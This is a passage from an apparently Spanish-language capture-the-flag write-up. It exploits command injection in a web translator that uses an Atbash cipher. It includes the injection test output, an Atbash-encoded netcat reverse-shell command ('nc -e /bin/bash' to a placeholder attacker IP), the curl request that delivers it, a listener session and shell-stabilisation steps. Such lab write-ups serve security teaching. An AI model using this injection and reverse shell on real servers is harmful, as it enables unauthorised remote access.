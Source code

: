Se esta traduciendo bien, pero como que se duplica, vamos a probar varios tipos de concatenacion, a ver si se pudiera concatenar y de alguna forma `bypassear` esto.

```
rw;rw
```

Info:

```
Translated to:  
id;id id uid=33(www-data) gid=33(www-data) groufs=33(www-data)
```

Por lo que vemos efectivamente se esta ejecutando el comando, por lo que vamos a realizarnos una `reverse shell` de esta forma.

```shell
python3 translate.py
```

Info:

```
Texto a cifrar con Atbash: nc -e /bin/bash <IP_ATTACKER> <PORT>
Cifrado: mx -v /yrm/yzhs <IP_ATTACKER> <PORT>
```

Para hacerlo mas facil vamos a utilizar directamente el parametro que utiliza para traducir la pagina llamado `hmv` con `curl`.

```shell
curl 'http://<IP>/translate.php?hmv=a;mx%20-v%20/yrm/yzhs%20<IP_ATTACKER>%20<PORT>'
```

Antes de enviar el comando, nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.40] 52818
whoami
www-data
```

Veremos que ha funcionado, por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
